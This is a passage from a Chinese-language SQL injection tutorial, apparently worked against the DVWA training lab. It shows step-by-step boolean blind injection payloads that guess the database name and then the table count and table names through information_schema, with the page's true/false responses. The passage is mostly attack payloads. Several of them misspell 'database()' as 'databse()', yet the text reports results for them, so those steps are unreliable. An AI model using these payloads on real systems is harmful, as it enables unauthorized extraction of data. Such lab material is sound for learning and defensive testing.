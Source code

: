 2.猜解当前数据库名

想要猜解数据库名，首先要猜解数据库名的长度，然后挨个猜解字符。

输入1’ and length(database())=1 #，显示不存在；

输入1’ and length(database())=2 #，显示不存在；

输入1’ and length(database())=3 #，显示不存在；

输入1’ and length(database())=4 #，显示存在：

说明数据库名长度为4。

下面采用二分法猜解数据库名。

输入1’ and ascii(substr(databse(),1,1))>97 #，显示存在，说明数据库名的第一个字符的ascii值大于97（小写字母a的ascii值）；

输入1’ and ascii(substr(databse(),1,1))<122 #，显示存在，说明数据库名的第一个字符的ascii值小于122（小写字母z的ascii值）；

输入1’ and ascii(substr(databse(),1,1))<109 #，显示存在，说明数据库名的第一个字符的ascii值小于109（小写字母m的ascii值）；

输入1’ and ascii(substr(databse(),1,1))<103 #，显示存在，说明数据库名的第一个字符的ascii值小于103（小写字母g的ascii值）；

输入1’ and ascii(substr(databse(),1,1))<100 #，显示不存在，说明数据库名的第一个字符的ascii值不小于100（小写字母d的ascii值）；

输入1’ and ascii(substr(databse(),1,1))>100 #，显示不存在，说明数据库名的第一个字符的ascii值不大于100（小写字母d的ascii值），所以数据库名的第一个字符的ascii值为100，即小写字母d。

…
重复上述步骤，就可以猜解出完整的数据库名（dvwa）了。

3.猜解数据库中的表名

首先猜解数据库中表的数量：

1’ and (select count (table_name) from information_schema.tables where table_schema=database())=1 # 显示不存在

1’ and (select count (table_name) from information_schema.tables where table_schema=database() )=2 # 显示存在
说明数据库中共有两个表。

接着挨个猜解表名：

1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1 # 显示不存在

1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=2 # 显示不存在

…

1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 # 显示存在
说明第一个表名长度为9。

1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 # 显示存在

1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<122 # 显示存在
